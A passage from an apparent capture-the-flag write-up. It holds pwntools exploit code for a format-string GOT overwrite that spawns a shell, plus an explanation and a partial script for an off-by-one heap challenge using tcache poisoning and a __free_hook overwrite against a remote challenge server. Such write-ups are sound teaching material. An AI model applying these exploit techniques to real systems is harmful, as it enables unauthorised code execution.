 ```python  
#sh.sendline("\\q" + cyclic(128))  
#library function rewrites our input

prog_addr = int(format_exp("\\%9$p")[2:], 16) - 0x1E9D - 5  
print hex(prog_addr)

pg = prog_addr + 0x5F68 #printf got table entry  
sys = libc_addr + 0x10a38c#e.symbols["system"]

format_exp("\\" + cyclic(7) + 'A' * (8 * 8) + p64(0) * 2 + p64(pg) + p64(pg+2)
+ p64(pg+4))

sh.sendline('\\' + cont_shoot([25, 26, 27], \  
	[sys & 0xffff, (sys >> 0x10) & 0xffff, (sys >> 0x20)], 0x11))

sh.interactive()  
```

The exploit is same, except some offset has been changed.

## 116 Pwn / pwn 101

Vulnerability is off-by-one, we can use this to extend the chunk size of
unsorted bin to create overlap to leak the `libc` address; then we can get the
same chunk twice in 2 different indices, so we can use double free to poison
`tcache bins` and rewrite `__free_hook`.

```python  
from pwn import *  
from struct import unpack as up  
g_local=0  
#p = ELF("./pwn101.elf")  
context(log_level='debug', arch='amd64')  
#e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")  
if g_local:  
	sh = process("./pwn101.elf")  
	gdb.attach(sh)  
else:  
	sh = remote("82.196.10.106", 29099)

sh.recvuntil("> ")  
def add(length, name, description="20192019"):  
	sh.sendline("1")  
	sh.recvuntil("Description Length: ")  
	sh.sendline(str(length))  
	sh.recvuntil("Phone Number: ")  
	sh.sendline("2019")  
	sh.recvuntil("Name: ")  
	sh.send(name)  
	sh.recvuntil("Description: ")  
	sh.send(description)  
	sh.recvuntil("> ")

def delete(idx):  
	sh.sendline("3")  
	sh.recvuntil("Index: ")  
	sh.sendline(str(idx))  
	sh.recvuntil("> ")

def show(idx):  
	sh.sendline("2")  
	sh.recvuntil("Index: ")  
	sh.sendline(str(idx))  
	sh.recvuntil("Description : ")  
```
